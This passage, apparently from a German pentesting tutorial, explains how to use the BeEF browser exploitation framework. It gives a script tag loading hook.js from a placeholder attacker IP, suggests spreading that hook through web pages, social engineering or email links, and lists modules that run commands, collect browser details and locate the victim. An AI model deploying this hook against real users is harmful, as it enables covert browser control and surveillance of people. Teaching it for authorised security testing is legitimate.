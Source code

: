 # 3. Nutzung von BeEF

Nach erfolgreicher Installation kannst du mit der Nutzung von BeEF beginnen. Hier werden die wesentlichen Schritte beschrieben:

#### 3.1 Zugriff auf die Weboberfläche

* **Anmeldung:**\
  Öffne deinen Browser und navigiere zur BeEF-Admin-Konsole (z. B. `http://localhost:3000/ui/panel`). Melde dich mit den in der Konfiguration festgelegten Zugangsdaten an.
* **Dashboard:**\
  Das Dashboard zeigt dir einen Überblick über „gehookte“ Browser (Clients), verfügbare Module und laufende Sessions.

#### 3.2 Browser-Hooking

*   **Payload generieren:**\
    BeEF stellt einen JavaScript-Hook zur Verfügung, der in Webseiten eingebettet werden kann. Dieser Hook sieht in etwa so aus:

    ```html
    <script src="http://<deine-IP>:3000/hook.js"></script>
    ```
* **Verteilung:**\
  Der Hook kann in eine Webseite eingebettet werden, über Social Engineering verteilt oder per E-Mail als Link geteilt werden. Sobald ein Zielbrowser den Hook lädt, wird es in BeEF „gehookt“ und erscheint im Dashboard.

#### 3.3 Module und Angriffe

* **Modulübersicht:**\
  In der Weboberfläche findest du eine Vielzahl von Modulen, die verschiedene Angriffe und Informationssammlungen ermöglichen. Beispiele:
  * **Browserinformationen abrufen:** Sammle Details zum Browser, Betriebssystem, Plugins etc.
  * **Command Execution:** Führe Befehle auf dem Client aus.
  * **Geolocation:** Ermittle den Standort des Opfers (falls der Browser dies preisgibt).
  * **Social Engineering Module:** Zum Beispiel Pop-up-Fenster zur Durchführung weiterer Angriffe.
* **Modulausführung:**\
  Wähle einen gehookten Browser aus und klicke auf ein gewünschtes Modul, um den Angriff auszuführen. Die Ergebnisse werden in der Weboberfläche in Echtzeit angezeigt.

#### 3.4 Interaktive Steuerung und Reporting

* **Session Management:**\
  BeEF ermöglicht es, mehrere gehookte Clients gleichzeitig zu verwalten und einzelne Sessions zu steuern.
* **Ergebnisprotokollierung:**\
  Alle ausgeführten Module und gesammelten Informationen werden protokolliert. Dies ist wichtig für die spätere Analyse und die Erstellung von Penetrationstest-Reports.
